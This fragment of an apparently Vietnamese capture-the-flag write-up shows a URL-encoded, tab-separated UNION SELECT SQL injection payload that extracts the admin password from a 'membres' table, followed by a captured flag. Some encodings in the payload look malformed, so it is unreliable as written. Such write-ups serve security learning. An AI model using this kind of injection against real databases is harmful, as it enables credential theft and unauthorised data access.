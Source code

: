 - Sửa đổi 1 cột để trả ra password của admin và kết quả thu được là:

```
0%09UNION%09SELECT%09*%09FROM%09(SELECT%09%09AS%09A%09JOIN%09(SELECT%092)%09AS%09B%09JOIN%(SELECT%093)%09AS%09C%09JOIN%(SELECT%09pass%09From%09membres%09LIMIT%091%09OFFSET%090%0%09AS%09D
```

- Result:

![1](img/66/Screenshot%20from%202023-02-02%2000-00-11.png)

```
Flag: KLfgyTIJbdhursqli
```